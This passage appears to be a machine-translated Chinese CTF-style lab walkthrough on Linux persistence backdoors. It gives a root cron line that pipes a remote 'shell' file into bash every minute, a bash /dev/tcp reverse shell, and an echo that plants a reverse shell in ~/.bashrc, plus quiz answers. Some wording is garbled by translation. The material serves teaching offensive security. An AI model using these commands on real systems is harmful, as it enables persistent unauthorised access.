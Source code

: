 现在让我们回到我们的后门！

将这一行添加到 cronjob 文件中:

* * * * * root curl http://<yourip>:8080/shell | bash</yourip>

请注意，我们给所有内容都加了一个“*”星号。这意味着我们的任务将每分钟、每小时、每天等等运行。

我们首先使用“curl”下载一个文件，然后通过管道将其传输到“bash”

我们使用的“shell”文件的内容很简单:

— — — — — — — — — — — — — — — — — — — — — — — — -

#!/bin/bash

bash -i >& /dev/tcp/ip/port 0>&1

— — — — — — — — — — — — — — — — — — — — — — — — —

我们必须运行一个 HTTP 服务器来服务我们的 shell。

您可以通过运行“python3 -m http.server 8080”来实现这一点

一旦我们的 shell 被下载，它将被“bash”执行，我们将得到一个 shell！

*不要忘记使用“nc -nvlp <port>”监听您指定的端口*</port>

请注意，这个后门并不是真正隐藏的，因为每个人都可以通过查看/etc/crontab 内部看到它。

**问题 1:** 字母“m”在 cronjobs 中是什么意思？

> **答案:分钟**

**q . 2:**cron jobs 中的字母“h”是什么意思？

> **答案:小时**

# 任务 5:。巴沙尔后门

现在让我们进入:“。巴沙尔“借壳！

如果用户使用 bash 作为他们的登录 shell。bashrc”文件在交互式会话启动时被执行。

因此，如果您知道有用户经常登录他们的系统，您可以简单地运行这个命令，将您的反向 shell 包含到他们的。巴沙尔”。

```
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```

有一点很重要，那就是要时刻准备好 nc 监听器，因为你不知道用户什么时候会登录。这种攻击非常卑鄙，因为没有人真正想过检查他们的”。bashrc”文件。
另一方面，您无法确切知道是否有任何用户会真正登录到他们的系统，因此您可能会等待很长一段时间。

# 任务 6: pam_unix.so 后门

让我们现在进入这个房间的第五个也是最后一个后门！

除了这个房间中显示的 5 个后门之外，还有许多许多后门可用！

在创建这个房间时，我发现一个非常有用的资源: [**链接**](https://airman604.medium.com/9-ways-to-backdoor-a-linux-box-f5f83bae5a3c)

